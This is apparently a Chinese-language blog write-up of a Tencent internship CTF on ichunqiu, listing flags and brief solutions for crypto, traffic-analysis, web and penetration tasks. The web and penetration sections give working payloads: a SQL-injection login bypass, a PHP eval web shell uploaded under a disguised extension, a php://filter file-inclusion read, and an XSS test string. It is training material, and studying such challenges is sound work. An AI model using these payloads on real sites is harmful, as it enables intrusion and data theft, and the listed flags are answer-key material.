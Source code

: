 ```yaml
---
layout: post
title: ichunqiu腾讯实习三十强竞赛部分题目题解
tags:
- Writeup
categories: Writeup
description: ichunqiu腾讯实习三十强竞赛部分题目题解
---
```


此次比赛前期在ichunqiu上学习21天，然后比赛，最终前三十可以去腾讯总部培训，然而我第三十一名

<!-- more -->
###基础题：
####1. 
flag{a2714506-b3e2-417d-bac9-e8d078ed4d96}
   直接查看源码
   
####2. 
flag{455ec542-5f3e-4cd6-beb0-26a5e67338fe}
  直接查看源码
  
####3. 
flag{77f9eb43-9aeb-4502-af45-c590034d9ea9}
   源码中发现一个关键的js链接`http://106.75.8.230:18255/js/5.js`，[在线运行](https://jsfiddle.net/)一下，注意将eval换成alert，得到弹窗代码`function aaa(){eval("32:64:39:30:61:39:30:38:31:63:62:38:64:61:63:38:61:64:65:65:61:34:63:33:61:66:30:33:34:39:32:61")}`，将十六进制数转成ascii码，得到`2d90a9081cb8dac8adeea4c3af03492a`，再md5解密得到`zf651q`
    
####4. 
flag{52bab258-a1a6-46c3-b621-f6e251484a1f}
   源码给出了一串unicode编码字符串`&#102;&#108;&#97;&#103;&#123;&#53;&#50;&#98;&#97;&#98;&#50;&#53;&#56;&#45;&#97;&#49;&#97;&#54;&#45;&#52;&#54;&#99;&#51;&#45;&#98;&#54;&#50;&#49;&#45;&#102;&#54;&#101;&#50;&#53;&#49;&#52;&#56;&#52;&#97;&#49;&#102;&#125;`，[在线解密](http://tool.chinaz.com/tools/unicode.aspx)得到flag
        
####5. 
flag{dd97563d-e256-4b08-b5cb-a86ea77ade4f}
   源码得到两个字符串分别base64解密后填入登陆框即可
        pass='MWMzNmNkNTI=';           --》1c36cd52
        pass1='NDFiNzczNWVlZmRj';      --》41b7735eefdc 

        
###加密解密
####1. 
flag{91b19e02-4fb7-45b6-a59b-4edac2b1d2ad}
   凯撒加密13位（也叫ROT-13加密）
        
####2. 
flag{9b8eaec9-e46c-438c-81f8-b39e45c4b490}
 4d1e3cbl10c094e4f7c704232956bc34 （md5中0-9a-zA-Z）第八位是L的小写有错，换成数字1
        4d1e3cb110c094e4f7c704232956bc34 --> 企鹅

####3. 
flag{7eef569a-0e3a-4036-9965-22830e250eae}
        import base64
        str = "6ZWc6Iqx5_C05pyI"
        for x in range(1,128):
            str = str[:9] + chr(x) + str[10:]
            try:
                    #print base64.b64decode(str)
                    print str
            except:
                    pass
   然后用burp爆破
   结果6ZWc6Iqx5rC05pyI 

#### 4. 
flag{faa8b1fd-0834-47fe-a019-3f6ab36ef510}
   培根密码
        我<i>年</i>轻时<i>注</i>意到，<i>我</i>每做十<i>件事</i>有九件<i>不成</i>功，于是我就十倍<i>地</i>去努力干下去。—— 萧<i>伯纳</i>
    直体对应A ，斜体对应B
    ABAAB AABAA ABBAA ABBAA AAAAA BAAAA AAABB  -->  kennard

    
###流量分析
####1. 
flag{@G00d_L4ck_H3r3@}
   wireshark过滤器输入：(data-text-lines and frame.len > 312 and ip.src == 192.168.40.42) or (ip.src == 192.168.169.130 and http and frame.len > 78)可以看到对话内容
        保存upload的文件，扣出图片，然后打开，在昆明那儿有flag

####2. 
flag{你自己看着办}
   导出倒数第三个包，记事本打开就能看见flag
        
####3. 
flag{6c0d68b0-c638-4fb5-a8f5-fdc756daf7e0}
   过滤器输入：http
   导出最后一个http数据包，打开就能看见flag

###Web安全
####1. 
flag{76c78577-6e75-420d-8837-a44613bb5f3a}
 万能密码登陆 `root' or '1=1#`，然后进入flag目录读取flag
        
####2. 
flag{f6a5f550-4c06-435c-ae9a-8ef489386af6}
 上传绕过，选择一个图片上传，抓包，把图片名称改为   xx.pHp5， 内容为 <?php @eval($_POST[value]);?>
        
####3. 
flag{2d33a69d-411f-411a-8da4-238c8adeb4fb}
在url后面加上 /gift.rar 开始下载 gift.rar， flag在rar中
    
####4. 
flag{44f49248-d10e-40c0-976a-3b45b184f04e}
用dirsearch 扫描目录得到sql.sql文件存在，访问得到flag    `http://106.75.8.230:10211/sql.sql`
       

###渗透测试
####1. 
flag{7450e858-38f5-4d31-83c2-37d8c8e5792d}
原题http://bbs.ichunqiu.com/thread-1821-1-1.html
    
####2. 
flag{7733138d-8f8e-4c42-b4c1-5e3e003f6502} 
把cookie改成admin1的md5值
        
####3. 
flag{3b456e00-954b-4290-92eb-966e38750477}
乱码提示flag、php、file，于是通过filter读取文件源码，`/index.php?file=php://filter/convert.base64-encode/resource=index.php`，得到的base64解密得到
```
>>> s1 = "PD9waHAgaW5jbHVkZSgkX0dFVFsnZmlsZSddICk7ID8+IA0K1dK1vbWxx7DOxLz+vNDPwrXEZmxhZ87EvP6jqHBocKOpo6zOxLz+w/vOqjTOu8r919a1xGZpbGU="
>>> print base64.b64decode(s1)
	<?php include($_GET['file'] ); ?>找到当前文件夹下的flag文件（php），文件名为4位数字的file
```        
爆破四位数字名字的文件得到1234.php,`/index.php?file=php://filter/convert.base64-encode/resource=1234.php`，得到结果解密得<?php //flag{3b456e00-954b-4290-92eb-966e38750477};?>

####4. 
flag{c0a8ed72-7af9-4444-a880-47b8f444b9d4}
        输入框xss，输入&lt;script&gt;alert(/xss/)&lt;/script&gt;
